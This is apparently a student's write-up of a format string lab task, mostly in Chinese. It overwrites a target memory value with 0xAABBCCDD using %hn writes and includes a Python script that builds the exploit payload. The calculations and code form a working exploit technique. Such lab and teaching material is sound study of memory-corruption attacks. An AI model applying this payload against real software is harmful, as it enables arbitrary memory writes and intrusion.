 Change the value to 0xAABBCCDD. This sub-task is similar to the previous one, except
that the target value is now a large number. In a format string attack, this value is the total number of
characters that are printed out by the printf() function; printing out this large number of characters
may take hours. You need to use a faster approach. The basic idea is to use %hn or %hhn, instead of
%n, so we can modify a two-byte (or one-byte) memory space, instead of four bytes. Printing out 216
characters does not take much time. More details can be found in the SEED book

将值更改为0xAABBCCDD

先看一下0x080e5068内存组织，由于是小端存储，因此：

- AA 0x080e506b 
- BB 0x080e506a
- CC 0x080e5069 
- DD 0x080e5068

先说结论：`data = "%.8x"*62 + "%.43199x" + "%hn" + "%.8738x" + "%hn"`

![](https://cdn.jsdelivr.net/gh/LaPhilosophie/image/img/202303291557522.png)

这个图给出了填充字符串的大致雏形

- 地址A：需要更改的内存高位，为0x080e506a
- @@@@：对应后面%hn**%x**%hn
- 地址B：需要更改的内存低位，为0x080e5068
- %.8x，输出字符，并且移动指针
- %hn：对应地址A
- %x：对应@@@@
- %hn：对应地址B

AABB-12=43695

- "%.8x"*62将指针向上移动62次，并输出496个字符。43695-496=43199
- "%.43199x"打印出43199个字符，并将指针向上移动1次
- %hn改变地址内容的的2个字节，并将指针向上移动1次
- "%.8738x"打印出8738个字符，并将指针向上移动1次
- %hn改变地址内容的的2个字节，并将指针向上移动1次

```python
#!/usr/bin/python3
  
import sys
N = 1500
content = bytearray(0x0 for i in range(N))

add1  = 0x080e5068
add2  = 0x080e5068+2
content[0:4]  =  (add2).to_bytes(4,byteorder='little') #AAAA
content[4:8]  =  ("AAAA").encode('latin-1')
content[8:12]  =  (add1).to_bytes(4,byteorder='little')

data = "%.8x"*62 + "%.43199x" + "%hn" + "%.8738x" + "%hn"
data = (data).encode('latin-1')
content[12:12+len(data)] = data
with open('bad', 'wb') as f:
  f.write(content)
```
